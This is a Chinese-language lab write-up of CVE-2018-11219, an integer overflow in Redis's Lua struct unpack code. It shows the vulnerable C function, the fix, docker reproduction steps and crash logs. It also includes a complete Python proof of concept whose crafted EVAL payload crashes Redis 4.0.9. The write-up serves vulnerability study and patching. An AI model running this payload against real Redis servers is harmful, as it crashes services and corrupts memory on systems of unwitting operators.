


# CVE-2018-11219 CWE-190 Redis 整数溢出

## 漏洞背景

## 漏洞原理

**整数溢出**： 在 Lua 子系统中，`struct` 库有一个用来处理整数的部分，攻击者可以通过传入非常大的值触发整数溢出。具体来说，Redis 在处理传入的结构化数据时，未能对超大整数进行有效的边界检查，导致整数值溢出，从而引发内存访问错误。

**未验证的输入**： 在没有有效检查输入的情况下，恶意攻击者可以通过 `EVAL` 命令执行带有恶意 Lua 脚本的请求，脚本中的某些参数可能触发整数溢出，进而影响 Redis 的运行时行为。

## 漏洞定位

​	在 **deps\lua\src\lua_struct.c** 文件的第 **293** 行，`b_unpack`函数的主要作用是根据指定的格式字符串从二进制数据中解包（解析）出相应的数据类型，并将解析结果压入 Lua 的栈中。其中第 **298** 行，`pos`从 Lua 栈的第三个参数获取起始位置（默认为 1），并将其转换为从 0 开始的索引。`pos`是通过`lual_optinteger`获取的，这个函数会返回一个整数，然后减 1。这个步骤是为了将 Lua 的 1-based 索引转换为 C 的 0-based 索引。

​	当处理格式字符为 `'c'` 时，如果 `size` 为零且之前没有指定大小，函数会尝试从栈中获取一个数字值作为大小。如果能够控制 `size` 为零以及设置参数b、B、h等来控制栈顶元素，那么在之后的`pos+size` 加法运算可能会超出所能表示的范围，造成溢出，最终回绕成一个较小的数通过检查。这时数据库会错误地认为内存足够而继续执行`lua_pushlstring`，但实际上是在读取一个极大长度的字符串，给`data+pos`指针加上超长偏移`size`，最终造成错误。（具体流程见POC分析）。

```c
static int b_unpack (lua_State *L) {
    // 从 Lua 栈的第一个参数获取格式字符串
  const char *fmt = luaL_checkstring(L, 1);          
  size_t ld;
    //  从 Lua 栈的第二个参数获取二进制数据字符串，并通过 &ld 获取其长度
  const char *data = luaL_checklstring(L, 2, &ld);   
    // 从 Lua 栈的第三个参数获取起始位置（默认为 1），并将其转换为从 0 开始的索引
  size_t pos = luaL_optinteger(L, 3, 1) - 1;         
  while (*fmt) {
    int opt = *fmt++;
    size_t size = optsize(L, opt, &fmt);             // 获取当前选项的大小
    pos += gettoalign(pos, &h, opt, size);           // 调整对齐
    luaL_argcheck(L, pos+size <= ld, 2, "data string too short");  // 边界检查
      switch (opt) {
      case 'b': case 'B': case 'h': case 'H':
      case 'l': case 'L': case 'T': case 'i':  case 'I': {  /* integer types */
        int issigned = islower(opt);
        lua_Number res = getinteger(data+pos, h.endian, issigned, size);
        lua_pushnumber(L, res);
        break;
      }
    // ... 其他处理逻辑 ...
    case 'c': {
      if (size == 0) {                                // 处理动态长度 'c0'
        if (!lua_isnumber(L, -1))
          luaL_error(L, "format `c0' needs a previous size");
        size = lua_tonumber(L, -1);                   // 从栈顶获取 size
        lua_pop(L, 1);
        luaL_argcheck(L, pos+size <= ld, 2, "data string too short");  // 再次检查边界
      }
      lua_pushlstring(L, data+pos, size);            // 推送字符串
      break;
    }
    // ... 其他 case ...
    pos += size;                                     // 更新位置
  }
  // ... 返回结果 ...
}
```

## 漏洞修复

将判断语句改为：

```c
luaL_argcheck(L, size <= ld && pos <= ld - size, 2, "data string too short");
```

单独检查`size`的大小，并使用 `ld - pos` 来检查`poc`，防止加法溢出问题，避免两者相加超出范围而回绕为较小的数而通过判断，造成后续溢出。并加入`n`变量用来追踪并返回该函数实际压入 Lua 栈的值个数，避免栈混乱带来的漏洞或逻辑错误。

## 影响版本

低于 3.2.12 的 Redis、低于 4.0.10 的 4.x 和低于 5.0 RC2 的 5.x

## 环境搭建

启动docker环境，Redis版本为4.0.9



## 漏洞复现

1、进入容器命令行，进入根目录，执行 CVE-2018-11219-POC.py，Redis崩溃

```bash
python2 CVE-2018-11219-POC.py
```



2、查看容器日志：

- `crashed by signal: 11`： Redis 崩溃是由于信号 `11`（通常表示段错误 Segmentation Fault）导致的，说明程序试图访问非法内存地址，导致崩溃。
- 日志中的错误涉及到 `malloc.c`，这是标准库中的内存分配代码。崩溃发生在 `sysmalloc` 函数中，该函数用于动态内存分配。日志中显示的断言失败表明，Redis 在处理内存分配时遇到了不一致的内存状态（可能是内存损坏）。
- 日志提到的断言失败 (`Assertion failed`) 指出 Redis 在内存分配过程中遇到错误，可能是由于尝试分配的内存块的大小或地址不正确，导致了内存损坏。

```bash
docker logs redis-4.0.9
```


## POC分析

```python
import socket
import hashlib

#3rd party
import redis  #pip install

server  = '127.0.0.1'
port    = 6379

def send_to_redis(server, port, data, timeout=2):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((server, port))
    try:
        s.send(data)
    except socket.timeout:
        print 'Unable to connect to target ; returning'
        return None
    s.close()


def main():
    # 构造恶意的Lua脚本，用于触发漏洞
    payload = 'return struct.unpack(\'bc0\', \'\xff\')'

    # 生成一个唯一的key，用于存储payload
    h = hashlib.sha1()
    h.update(payload)
    key = h.hexdigest()

    # 将payload存储到Redis服务器
    r = redis.StrictRedis(host=server, port=port)
    r.set(key, payload)

    # 构造另一个payload，用于从Redis服务器中获取并执行之前存储的payload
    payload = 'eval "return loadstring(redis.call(\'get\', KEYS[1]))()" 1 %s\n' % key

    # 将payload发送到Redis服务器，触发漏洞
    send_to_redis(server, port, payload)


if __name__ == '__main__':
    main()
```

PoC代码中，在漏洞触发语句`struct.unpack('bc0', '\xff')`中会尝试根据格式字符串 `'bc0'` 从二进制数据 `'\xff'` 中解包数据。有符号字节`b`使用`getinteger`方法读取`0xFF`值为 -1，并通过`lua_pushnumber`方法压入栈顶。`c0`要求读取一个长度为 0 的字符串，即`size=0`，此时需要从栈顶获取长度，栈顶保存这`b`的值，最终`size = -1`。在代码中，`size`是`size_t`类型（无符号整数）。当 -1 被赋值给`size_t`时，它会被转换为一个非常大的值。之后在判断`pos+size`时由于加法溢出，可能误判数据区域足够，最终回绕成一个较小的数通过检查。这时数据库会错误地认为内存足够而继续执行`lua_pushlstring`，但实际上是在读取一个极大长度的字符串，给`data+pos`指针加上超长偏移`size`，最终造成错误

## 参考链接

[An Integer Overflow issue was discovered in the struct... · CVE-2018-11219 · GitHub Advisory Database](https://github.com/advisories/GHSA-pqpx-gpvg-4m34)

[Redis Lua 脚本：修复了几个安全漏洞 -  --- Redis Lua scripting: several security vulnerabilities fixed - ](https://antirez.com/news/119)

[trigger.py](https://gist.github.com/antirez/82445fcbea6d9b19f97014cc6cc79f8a)

[Security: update Lua struct package for security. · antirez/redis@1eb08bc](https://github.com/antirez/redis/commit/1eb08bcd4634ae42ec45e8284923ac048beaa4c3)
